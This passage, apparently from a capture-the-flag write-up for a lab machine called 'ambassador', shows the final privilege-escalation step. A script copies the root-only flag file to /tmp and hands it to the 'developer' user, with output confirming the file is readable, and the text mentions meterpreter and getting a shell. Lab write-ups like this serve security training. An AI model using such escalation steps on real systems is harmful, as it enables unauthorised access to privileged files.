 We'll start `/tmp/run.sh` using the command above above, which simply copies root.txt and makes it readable for `developer`. 

```sh
developer@ambassador:/tmp$ cat run.sh 
cp /root/root.txt /tmp/root.txt
chown developer:developer /tmp/root.txt
```

You can go for shell or anything you want if you like ;).

```
developer@ambassador:/tmp$ ls -la root.txt 
-rw-r----- 1 developer developer 33 Nov 25 17:33 root.txt
```

This is however pretty much the same thing what meterpreter did for us above

![picture 4](/assets/images/aa07c5b854d140788dbe8235c777c24fbe98cf7361c23c56eb4db3d14792835e.png)  

